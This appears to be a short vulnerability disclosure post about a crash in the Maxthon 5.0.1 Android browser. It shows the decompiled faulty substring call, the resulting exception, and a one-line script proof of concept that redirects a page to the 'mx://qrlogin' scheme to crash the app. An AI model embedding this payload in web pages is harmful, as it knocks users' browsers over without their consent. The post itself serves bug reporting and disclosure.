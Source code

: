 ```yaml
---
layout: post
title: Maxthon 5.0.1 (com.mx.browser.star) For Android Crash
---
```

Maxthon(http://www.maxthon.com/about-us/) is a state-of-the-art, multi-platform web browser that regularly outperforms other top browsers and offers users a seamless browsing and sharing experience.
 
![](https://ws4.sinaimg.cn/large/c334041bgw1f9v5ni7rt1j21aa13atii.jpg)

Decompile, com.mx.browser.web.WebViewFragment 442:

    str = str.substring("mx://qrlogin".length() + 1);

Debug:

    Caused by: java.lang.StringIndexOutOfBoundsException: length=12; index=13
    
Poc:

    <script>location.href="mx://qrlogin";</script>
    
